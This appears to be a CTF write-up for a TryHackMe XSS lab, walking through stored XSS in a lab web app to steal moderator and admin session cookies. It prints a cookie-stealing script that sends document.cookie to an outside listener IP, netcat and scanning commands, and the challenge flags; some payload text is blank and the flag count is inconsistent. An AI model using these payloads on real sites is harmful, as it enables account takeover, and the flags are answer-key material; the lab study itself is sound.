







# MWR-Week5 XSS Challenge

## Overview

This is a writeup for the MWR Week 5 CTF challenge hosted on TryHackMe, focused on Cross-Site Scripting (XSS). The goal was to exploit stored XSS vulnerabilities across a social-media-style web application called **WorldWAP** to escalate privileges from a regular user all the way to Admin, collecting 2 flags along the way.

**Target IP:** `10.114.178.113`  
**Hostname:** `worldwap.thm`  
**Flags collected:** 2

---

## Reconnaissance

Started with a full port scan using nmap:

```bash
nmap -p- -sC -sV 10.114.178.113
```

**Open ports discovered:**

| Port | Service | Notes                                                      |
| ---- | ------- | ---------------------------------------------------------- |
| 22   | SSH     | OpenSSH 8.2p1                                              |
| 80   | HTTP    | Apache 2.4.41 — main web app, redirects to `/public/html/` |
| 8081 | HTTP    | Apache 2.4.41 — secondary service                          |

The first thing I noticed was port 8081. Curling it returned an HTML comment:

```
<!-- login.php should be updated by Monday for proper redirection -->
```

This hinted at an admin login page at `http://worldwap.thm:8081/login.php`.

---

## Enumeration

### Port 8081 — Admin Login

Navigating to `http://worldwap.thm:8081/login.php` revealed a login panel. No default credentials worked at this stage, so I moved on to enumerate the main app.



### Port 80 — Main Web App

Running gobuster against the main app:

```bash
gobuster dir -u http://worldwap.thm/public/html/ -w /usr/share/wordlists/dirb/common.txt -x php,html
```

Key findings:

| Path             | Status | Notes                  |
| ---------------- | ------ | ---------------------- |
| `/index.php`     | 200    | Main page              |
| `/login.php`     | 200    | User login             |
| `/register.php`  | 200    | Registration           |
| `/admin.php`     | 403    | Forbidden              |
| `/dashboard.php` | 403    | Forbidden              |
| `/mod.php`       | 403    | Likely moderator panel |
| `/upload.php`    | 403    | Forbidden              |

---

## Stage 1 — Stealing the Moderator Cookie

### The Registration XSS

Visiting the registration page revealed a key message: **"Your details will be reviewed by the site moderator."**



This meant a moderator bot would be reading submitted registration details — a classic stored XSS opportunity. I registered with an XSS payload in the **Name** field:

```html
<script>
  fetch("http://10.114.100.64:9001/?c=" + document.cookie);
</script>
```

Before submitting, I started a netcat listener:

```bash
nc -lvnp 9001
```

### Challenge: "User Not Verified"

After registering normally the first time, logging in returned **"User not verified"**. The page also hinted at a subdomain: `login.worldwap.thm`. I added it to `/etc/hosts`:

```bash
echo "10.114.178.113 login.worldwap.thm" >> /etc/hosts
```



### Getting the Cookie

The moderator bot visited the pending registrations and triggered my XSS payload. My listener received:

```
GET /?c=PHPSESSID=28cubbe4m5cqemt2o6nhnaoh9v HTTP/1.1
```

### Flag 1

Using the stolen `PHPSESSID` cookie on `http://login.worldwap.thm/profile.php`, I was logged in as **Moderator** and found the first flag displayed in the navbar:

> **`MWR{I.am.the.MOD}`**



---

## Stage 2 — Stealing the Admin Cookie

### Enumerating login.worldwap.thm

Running gobuster on the subdomain revealed:

```bash
gobuster dir -u http://login.worldwap.thm/ -w /usr/share/wordlists/dirb/common.txt -x php,html
```

Key findings included `/chat.php`, `/phpmyadmin`, and `/admin.php`. The chat page was the most interesting — it had an **Admin Bot** listed as **Online**.



The sidebar also showed **"Admin Area (You don't have the access !)"**, confirming I needed to escalate further.

### Challenge: Script Tags Being Sanitized

My first attempt at XSS in the chat used a `<script>` tag:

```html
<script>
  fetch("http://10.114.100.64:9001/?c=" + document.cookie);
</script>
```

The chat rendered it as **plain text** — the `<script>` tag was being filtered.



### Bypassing the Filter

I switched to an `` tag with an `onerror` handler, which is not filtered by many basic sanitizers:

```html

```

This worked. The Admin Bot read the message and my listener received the admin's session cookie.

### Flag 2 & Flag 3

Replacing my session cookie with the admin's cookie on `http://login.worldwap.thm/profile.php` logged me in as **Admin**, revealing two more flags:

> **`MWR{and.the.Admin.too!}`** — displayed in the navbar  
> **`MWR{AdM!nP@wnEd}`** — displayed in the sidebar



---

## Attack Chain Summary

```
Register with XSS in Name field
        │
        ▼
Moderator bot views registrations → XSS fires
        │
        ▼
Steal Moderator PHPSESSID → Login as Moderator
        │
        ▼
Send  XSS to Admin Bot in chat
        │
        ▼
Admin Bot reads message → XSS fires
        │
        ▼
Steal Admin PHPSESSID → Login as Admin
        │
        ▼
2 Flags captured
```

---

## Flags

| Flag   | Value                     |
| ------ | ------------------------- |
| Flag 1 | `MWR{I.am.the.MOD}`       |
| Flag 2 | `MWR{and.the.Admin.too!}` |

---

## Key Takeaways

- **Stored XSS** is particularly dangerous when combined with automated bots that read user-submitted content.
- **`<script>` tag filtering** is a common but incomplete defence — ``, `<svg onload>`, and other event handlers are frequently overlooked.
- Always check for **subdomains** in web apps — `login.worldwap.thm` held the entire authenticated portion of the app.
- **HTML comments** in source code can leak important hints about the application structure.
- Cookie flags like `HttpOnly` would have prevented this entire attack chain — neither session cookie was protected.

---

## Tools Used

- `nmap` — port scanning
- `gobuster` — directory enumeration
- `netcat` — cookie listener
- Browser DevTools — cookie manipulation
